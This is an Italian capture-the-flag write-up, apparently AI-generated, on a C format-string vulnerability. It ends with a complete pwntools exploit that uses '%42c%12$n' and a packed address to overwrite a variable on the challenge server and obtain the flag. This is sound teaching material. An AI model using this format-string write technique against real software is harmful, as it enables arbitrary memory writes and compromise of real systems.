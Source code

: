 Ecco la writeup basata sul template fornito e sulle informazioni della challenge:

---
# Writeup: The Answer Challenge

La challenge presenta un semplice programma C che chiede all'utente il proprio nome e poi lo stampa in modo insicuro, permettendo un attacco di format string. L'obiettivo è modificare il valore della variabile `answer` da `0xbadc0ffe` a `42` per ottenere la flag.

## Panoramica del Programma
Il programma esegue le seguenti operazioni:
1. Chiede all'utente il nome con `fgets(name, sizeof(name), stdin)`
2. Stampa il nome usando `printf(name)` senza specificare il formato (vulnerabilità di format string)
3. Se la variabile `answer` (inizializzata a `0xbadc0ffe`) viene modificata a `42`, stampa la flag

## Vulnerabilità
La vulnerabilità principale è nell'uso non sicuro di `printf`:
```c
printf(name);  // Format string vulnerability
```

Questo permette:
1. Lettura arbitraria della memoria (leak di indirizzi)
2. Scrittura arbitraria nella memoria (tramite `%n`)

## Dettagli dell'Exploit

### Individuazione dell'indirizzo di `answer`
Analizzando il binario con `objdump` o `nm`, troviamo che `answer` si trova all'indirizzo statico `0x601078` (no PIE).

### Determinazione dell'offset
Inviando una stringa di test con parametri di formato:
```
AAAA_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x_%08x
```

L'output mostra che:
- Il 10° parametro corrisponde a `name[0:8]`
- L'11° parametro corrisponde a `name[8:16]`
- Il 12° parametro corrisponde a `name[16:24]`

Per raggiungere la posizione dove possiamo scrivere l'indirizzo di `answer`, abbiamo bisogno di un padding di 6 byte.

### Tecnica di scrittura
Usiamo la specifica di formato `%42c%12$n` per:
1. Scrivere 42 caratteri (impostando così il valore a 42)
2. Usare `%n` per scrivere questo conteggio all'indirizzo specificato

## Codice di Exploit
```python
from pwn import *

# Connessione al servizio remoto
conn = remote('answer.challs.cyberchallenge.it', 9122)

# Ricezione del prompt
conn.recvuntil(b"What's your name?\n")

# Costruzione dell'input
addr = p64(0x601078)            # Indirizzo di 'answer'
format_string = b"%42c%12$n"    # Stringa di formato per scrivere 42
padding = b"a" * 6              # Padding per allineamento
input_string = format_string + b"\0" + padding + addr

# Invio dell'input
conn.sendline(input_string)

# Ricezione della flag
print(conn.recvall().decode())
```

## Spiegazione dei Componenti
1. `p64(0x601078)`: Converte l'indirizzo di `answer` in formato little-endian a 64-bit
2. `%42c%12$n`: 
   - `%42c` stampa 42 caratteri (impostando il counter di `printf` a 42)
   - `%12$n` scrive questo valore all'indirizzo specificato nella 12° posizione
3. Padding di 6 byte: Necessario per allineare correttamente l'indirizzo nella stack
4. `b"\0"`: Null byte per separare la stringa di formato dal padding

## Risultato
Quando l'exploit viene eseguito:
1. Il programma legge il nostro input malevolo
2. La format string vulnerability modifica `answer` a 42
3. Il controllo `if (answer == 42)` diventa vero
4. Il programma stampa la flag

## Lezioni Apprese
1. **Format String Vulnerability**: L'uso non sicuro di `printf` permette lettura e scrittura arbitraria in memoria
2. **Scrittura con `%n`**: Possiamo usare i formattatori per modificare valori in memoria
3. **No PIE**: L'indirizzo di `answer` è fisso e prevedibile
4. **Allineamento dello Stack**: È importante calcolare correttamente la posizione dei parametri nella stack
5. **Protezioni**: Il programma non ha stack canary e PIE è disabilitato, facilitando l'exploit

La challenge dimostra come anche un semplice programma che chiede il nome possa essere vulnerabile se non si usano correttamente le funzioni di I/O.
---

